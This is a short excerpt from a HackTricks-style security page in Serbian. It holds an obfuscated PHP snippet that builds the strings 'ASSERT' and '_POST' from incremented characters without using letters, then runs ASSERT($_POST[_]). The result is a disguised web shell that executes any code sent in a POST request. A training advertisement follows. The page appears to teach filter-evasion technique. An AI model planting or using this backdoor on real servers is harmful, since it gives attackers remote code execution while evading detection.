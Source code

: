 ### Perl slično

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
